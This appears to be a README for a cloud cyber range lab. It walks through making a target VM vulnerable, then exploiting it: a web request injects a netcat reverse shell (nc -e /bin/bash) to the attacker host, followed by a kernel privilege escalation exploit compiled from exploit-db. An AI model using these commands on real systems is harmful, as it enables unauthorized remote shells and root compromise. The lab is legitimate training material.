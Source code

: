 # Google Cloud Platform Cyber Range 

## Artifacts

* [Qwiklabs site](https://ce.qwiklabs.com/focuses/12629) 
* [Setup script](setup.sh), launch from Cloud Shell
* [Blue Ansible playbook](blue.yml)
* [Red Ansible playbook](red.yml) ???
* [Terraform script](main.tf)

## Instructions

1. Select your qwiklabs project from the dropdown menu in the top blue bar, i.e., ```qwiklabs-gcp-fa603bc97e11059a```
2. Start the Cloud Shell
3. Clone this repo

```
git clone https://github.com/redteam-project/meetup.git
cd meetup/20190321
```

4. Run the setup script `./setup.sh`
5. SSH to the blue instance `gcloud compute ssh blue-1 --zone us-east4-a`
6. Update and install packages

```
sudo su -
yum update -y
yum install -y git ansible python-pip
```

7. Clone the `meetup`, `cyber-range-target`, and `exploit-curation` repos

```
git clone https://github.com/redteam-project/meetup
git clone https://github.com/redteam-project/cyber-range-target
git clone https://github.com/redteam-project/exploit-curation
```

8. Make this instance vulnerable to Shellshock and libfutex

```
ansible-playbook meetup/20190321/blue.yml
```

9. Wait for the instance to reboot, then re-log in

```
gcloud compute ssh blue-1 --zone us-east4-a
```

10. Now scan for exploitable vulnerabilities with `lem`

```
sudo su -
virtualenv venv
source venv/bin/activate
pip install lem
lem host assess --curation exploit-curation --kind stride --score 090000
lem exploit copy --id 35146 --source exploit-database --destination /var/www/html --curation exploit-curation
mv /var/www/html/exploit-database-35146.txt /var/www/html/index.php
```

11. Our remote code execution vulnerability is now ready to exploit. Now start two new Cloud Shell instances and ssh to red-1 from both.

```
gcloud compute ssh red-1 --zone us-east4-a
```

12. In the first `red-1` shell, install Netcat and start a listener on port 4444.

```
yum install -y nmap-ncat
nc -nlv 4444
```

13. In the second `red-1` shell, exploit the Shellshock vulnerability we staged in step 10. Replace the IP addresses with your blue-1 and red-1 IPs, respectively.

```
curl -X GET 'http://10.150.0.6/index.php?cmd=nc%20-nv%2010.150.0.7%204444%20-e%20/bin/bash'
```

14. Now in the first `red-1` shell, you should have a reverse shell to `blue-1`. Use this Python trick to get a tty and invoke bash.

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

15. Create a virtualenv, install lem, and look for a privilege escalation vulnerability.

```
cd /tmp
virtualenv venv
source venv/bin/activate
pip install lem
git clone https://github.com/redteam-project/exploit-curation
lem host assess --curation exploit-curation --kind stride --score 000009
```

Note that there is currently a [bug](https://github.com/redteam-project/lem/issues/5) in lem that prevents the exploit that maps to CVE-2014-3153 from returning, but for purposes of this lab we know that it maps to EDBID 35370.

16. Stage the exploit and pop root. **EDIT** - this doesn't appear to work , which could be the result of environment (GCE), or that cyber-range-target didn't properly downgrade the kernel rpm to a version with the libfutex vulnerability. In a way, this is exactly why this project matters -- it's hard to make cyber ranges repeatable, infrastructure-as-code environments. See the relevant [exploit-curation enhancement bug](https://github.com/redteam-project/exploit-curation/issues/1) to track progress, and check back later for an updated lab.

```
lem exploit copy --curation /tmp/exploit-curation --source exploit-database --id 35370 --destination /tmp/
mv exploit-database-35370.txt exploit.c
gcc -lpthread exploit.c -o exploit
./exploit
id -a
```
